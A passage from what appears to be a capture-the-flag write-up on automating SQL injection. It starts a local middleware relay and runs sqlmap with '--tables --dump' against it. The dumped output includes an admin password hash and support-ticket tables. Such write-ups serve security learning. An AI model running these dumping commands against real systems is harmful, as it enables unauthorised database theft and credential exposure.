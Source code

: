 ```
$ python wserv.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*

```

And finally run sqlmap:

```bash
$ sqlmap -u http://localhost:8081/?id=0.0.1 --tables --dump
```

##### SQLMap output:
Database: <current>  
Table: reports  
[2 entries] 
```markdown
| id | subject                   | description                                                                                                         | reported_date | reporter_name |
|----|---------------------------|---------------------------------------------------------------------------------------------------------------------|---------------|---------------|
| 1  | Accept JPEG files         | Is there a way to convert JPEG images with this tool? Or should I convert my JPEG to PNG and then use it?           | 13/08/2022    | Jason         |
| 2  | Converting non-ascii text | When I try to embed non-ascii text, it always gives me an error. It would be nice if you could take a look at this. | 22/09/2022    | Mike          |
```
Database: <current>  
Table: users  
[1 entry]  
```markdown
| id | role  | password                         | username | 
|----|-------|----------------------------------|----------|
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    | 
```
Database: <current>  
Table: answers  
[2 entries]  
```markdown
| id | report_id | answer                                                                                                                                                             | status  | FOREIGN | answered_by | answered_date |
|----|-----------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------|---------|---------|-------------|---------------|
| 1  | <blank>   | Hello Json, As if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.                                                    | PENDING | <blank> | admin       | 17/08/2022    |
| 2  | <blank>   | Hello Mike, We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now! Thomas Keller | PENDING | <blank> | admin       | 25/09/2022    |
```
SQLMap produces everything very fast in case we missed something, but it was a little tricky to set up this time. If the SQLi type had been a blind injection, enumerating everything by hand can be extremely time consuming. It is good to know how we might make automation for this task possible.
